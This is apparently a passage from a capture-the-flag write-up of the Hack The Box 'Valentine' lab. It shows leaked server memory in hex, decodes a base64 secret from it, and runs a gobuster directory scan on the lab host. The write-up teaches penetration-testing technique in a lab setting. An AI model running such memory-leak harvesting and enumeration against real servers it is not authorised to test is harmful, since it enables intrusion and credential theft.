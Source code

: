 ```bash
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 1D  mV0aGVoeXBlCg==.
  0160: 1C 9C 7F 04 5D B8 AC 50 A5 6B 21 CB 9C A5 7B 40  ....]..P.k!...{@
```

I can see `decode.php` with base64 encoded text.

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```

This base64 encoded text is decoded as `heartbleedbelievethehype`.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt --timeout 300s
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 5m0s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 38]
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]  
```

There's `/dev` page which allows directory listing.
Let's visit this page.

